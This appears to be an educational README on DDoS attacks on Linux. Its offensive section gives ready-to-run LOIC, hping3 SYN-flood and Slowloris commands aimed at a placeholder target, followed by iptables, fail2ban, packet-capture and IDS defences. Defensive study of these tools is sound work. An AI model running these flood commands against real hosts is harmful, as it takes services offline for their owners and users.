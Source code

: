 # **DDoS Attacks Practically on Linux**

## **1. Offensive Perspective (Simulating DDoS Attacks)**
⚠️ **Warning: Educational purpose only ** Conduct these activities in a controlled lab environment only.

### **1.1 Using LOIC (Low Orbit Ion Cannon)**
LOIC is a simple stress-testing tool that can simulate TCP, UDP, and HTTP floods.
#### **Installation:**
```bash
sudo apt install mono-complete
wget https://github.com/NewEraCracker/LOIC/archive/refs/heads/master.zip
unzip master.zip && cd LOIC-master
```
#### **Execution:**
```bash
chmod 777 loic.sh
./loic.sh install
./loic.sh update
cd LOIC
./loic.sh run
```
Configure the target and initiate the attack.

### **1.2 Using Hping3 (SYN Flood)**
Hping3 can be used to send TCP SYN packets rapidly.
#### **Installation:**
```bash
sudo apt install hping3
```
#### **Execution:**
```bash
sudo hping3 -S -p 80 --flood <target-ip>
```

### **1.3 Using Slowloris (Application Layer Attack)**
Slowloris exhausts available HTTP connections on the target.
#### **Installation & Execution:**
```bash
git clone https://github.com/gkbrk/slowloris.git
cd slowloris
python3 slowloris.py <target-ip>
```

---
## **2. Defensive Perspective (Mitigation Strategies)**
### **2.1 Using IPTables for Traffic Filtering**
#### **Block SYN Flood:**
```bash
sudo iptables -A INPUT -p tcp --syn -m limit --limit 1/s --limit-burst 3 -j ACCEPT
sudo iptables -A INPUT -p tcp --syn -j DROP
```
#### **Block UDP Flood:**
```bash
sudo iptables -A INPUT -p udp -m limit --limit 10/s -j ACCEPT
sudo iptables -A INPUT -p udp -j DROP
```

### **2.2 Using Fail2Ban for Rate Limiting**
#### **Installation:**
```bash
sudo apt install fail2ban
```
#### **Configuration:**
Edit `/etc/fail2ban/jail.local`:
```
[sshd]
enabled = true
maxretry = 3
bantime = 3600
```

---
## **3. Forensic Perspective (Analyzing DDoS Attacks)**
### **3.1 Using Wireshark**
Wireshark can capture and analyze packet-level data.
#### **Execution:**
```bash
sudo wireshark
```
Filter SYN flood packets using:
```
tcp.flags.syn == 1 && tcp.flags.ack == 0
```

### **3.2 Using Tcpdump**
Tcpdump allows real-time network traffic monitoring.
#### **Execution:**
```bash
sudo tcpdump -i eth0 port 80
sudo tcpdump -n -c 1000 'tcp[tcpflags] & (tcp-syn) != 0'
```

### **3.3 Using Netstat to Detect High Connections**
Detect excessive connections from an IP.
#### **Execution:**
```bash
netstat -ant | awk '{print $5}' | sort | uniq -c | sort -nr
```

---
## **4. Converting a Target System to Detect & Defend**
### **4.1 Using Snort (Intrusion Detection System)**
#### **Installation:**
```bash
sudo apt install snort
```

### **4.2 Using Suricata (IDS/IPS)**
#### **Installation & Execution:**
```bash
sudo apt install suricata
sudo suricata -c /etc/suricata/suricata.yaml -i eth0
```

---
## **Final Notes**
- **Use Kali Linux** for offensive testing.
- **Use Ubuntu or CentOS** for defensive analysis.
- **Setup a private network** (VirtualBox or Raspberry Pi cluster) for ethical hacking.
- **Emphasize responsible cybersecurity practices.**
